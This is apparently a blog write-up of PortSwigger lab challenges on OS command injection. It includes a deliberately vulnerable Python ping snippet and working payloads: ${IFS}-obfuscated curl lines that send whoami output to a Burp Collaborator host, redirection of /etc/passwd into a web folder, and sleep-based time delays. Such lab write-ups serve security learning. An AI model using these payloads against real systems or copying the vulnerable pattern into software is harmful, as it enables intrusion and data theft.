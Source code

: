 * * *
### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
* * *   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

  ![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

  ![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
  ![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

  ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

  ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

  ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

   ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

  ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)

### Challenge 4

Challenge description: Blind OS command injection with output redirection

  ![2023-10-24_15-54](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ceedb1e0-ac2c-4910-8c84-b937bfa72b04)

- The main goal of the challeenge is to redirect uur output to the writable folder "/var/www/images"
- Intercept the feedback request and forward to the repeater

  ![2023-10-24_16-51](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0a43bfb-3541-4357-a4c3-a6e68249df21)

- Use this linux command to redirect whoami output to a file in /var/www/images

        ;touch${IFS}/var/www/images/resullt.txt;whoami${IFS}>${IFS}/var/www/images/result.txt
        ;cat${IFS}/etc/passwd>/var/www/images/result.txt

  ![2023-10-24_16-57](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a0a1c81c-e08b-49cb-98cb-516778b9b206)

- I noticed a particular link is vulnerable to Local File Include and be used to read local files

      https://0a880060030a479a803ac6e800e000e5.web-security-academy.net/image?filename=result.txt

- I redirected the output of /etc/passwd to result.txt and I got this output after visiting the link

  ![2023-10-24_17-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a3e4891c-aaf4-4c1d-8404-a36ac3aeb30a)

- I noticed that I could not redirect the output of 'whoami' but I was able to redirect the contents of /etc/passwd.Challenge solved

  ![2023-10-24_17-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a8ab9448-fbcb-4f90-99da-3ccfd8ad231d)

        
### Last Challenge
Challenge Description: Blind OS command injection with time delays

 ![2023-10-24_17-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7a38ed0f-12b1-4489-a7c8-72b419c31662)

- The goal of this challenge is to initiate a 10 seconds time delay.You can achieve it with bash 'sleep' function

       sleep 10
- I used the payload to initiate multiple time delay

      ;sleep${IFS}20;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10;sleep${IFS}10

   ![2023-10-24_17-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0449e534-5ff5-43f9-a63b-0972d8157c1c)

- Challenge solved

   ![2023-10-24_17-53](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/184d6931-a629-4d4d-aa58-51748d5ed3e7)

  

